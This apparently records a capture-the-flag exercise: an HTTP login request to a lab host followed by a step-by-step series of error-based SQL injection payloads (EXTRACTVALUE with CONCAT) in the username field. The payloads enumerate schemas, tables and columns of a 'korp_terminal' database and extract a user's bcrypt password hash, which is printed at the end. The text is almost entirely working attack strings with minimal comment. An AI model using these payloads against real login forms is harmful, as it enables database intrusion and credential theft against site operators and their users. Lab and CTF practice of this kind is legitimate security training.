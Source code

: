 POST / HTTP/1.1
Host: 94.237.59.129:37415
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 152
Origin: http://94.237.59.129:37415
Connection: close
Referer: http://94.237.59.129:37415/
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache




#started from 
username=a' AND EXTRACTVALUE(8842,CONCAT(0x5c,0x71626b7071,(SELECT (ELT(8842=8842,1))),0x7162626b71))-- NOcB&password=a

username=a' AND EXTRACTVALUE(8842,CONCAT(0x5c,0x71626b7071,(SELECT table_name FROM information_schema.tables LIMIT 1),0x7162626b71))-- NOcB&password=a


username=a' AND EXTRACTVALUE(8842,CONCAT(0x5c,0x71626b7071,(SELECT SCHEMA_name FROM information_schema.schemata LIMIT 1 OFFSET 2),0x7162626b71))-- NOcB&password=a

leak information about users
username=a' AND EXTRACTVALUE(8842,CONCAT(0x5c,0x71626b7071,(SELECT table_name FROM information_schema.tables WHERE table_schema='korp_terminal' LIMIT 1 OFFSET 0),0x7162626b71))-- NOcB&password=a

username=a' AND EXTRACTVALUE(8842,CONCAT(0x5c,0x71626b7071,(SELECT column_name FROM information_schema.columns WHERE table_schema="korp_terminal" AND table_name="users" LIMIT 1 OFFSET 0),0x7162626b71))-- NOcB&password=a


id, username, password

username=a' AND EXTRACTVALUE(8842,CONCAT(0x5c,0x71626b7071,(SELECT password FROM korp_terminal.users LIMIT 1 OFFSET 0),0x7162626b71))-- NOcB&password=a
username=a' AND EXTRACTVALUE(8842,CONCAT(0x5c,0x71626b7071,(SELECT substring(password,1,12) FROM korp_terminal.users LIMIT 1 OFFSET 0),0x7162626b71))-- NOcB&password=a

$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.
